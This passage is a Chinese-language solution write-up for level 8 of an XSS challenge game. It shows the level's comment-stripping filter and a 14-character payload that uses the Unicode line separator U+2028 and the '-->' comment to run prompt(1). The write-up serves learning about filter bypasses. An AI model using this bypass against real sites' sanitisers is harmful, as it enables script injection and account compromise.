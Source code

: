 ### 背景知识

小技巧：IE 下可以使用##async##来加载不需要闭合的 script 文件。如下：

```
<script src="test.js" async>

```

## Level 8

* * *

这题使用的两个技巧

*   `<LS>`是 U+2028，是 Unicode 中的行分隔符。

*   `<PS>`是 U+2029，是 Unicode 中的段落分隔符。

另外`-->`，也可以在 js 中当注释使用，资料：[`javascript.spec.whatwg.org/#comment-syntax`](https://javascript.spec.whatwg.org/#comment-syntax)，因此我们构造答案如下：

```
<script>
// console.log("
prompt(1)
-->");
</script>

```

### 代码

```
function escape(input) {
    // prevent input from getting out of comment
    // strip off line-breaks and stuff
    input = input.replace(/[\r\n</"]/g, '');

    return '                                \n\
<script>                                    \n\
    // console.log("' + input + '");        \n\
</script> ';
}

```

### 答案

Chrome 和 Firefox 下 14 个字符

```
[U+2028]prompt(1)[U+2028]-->

```
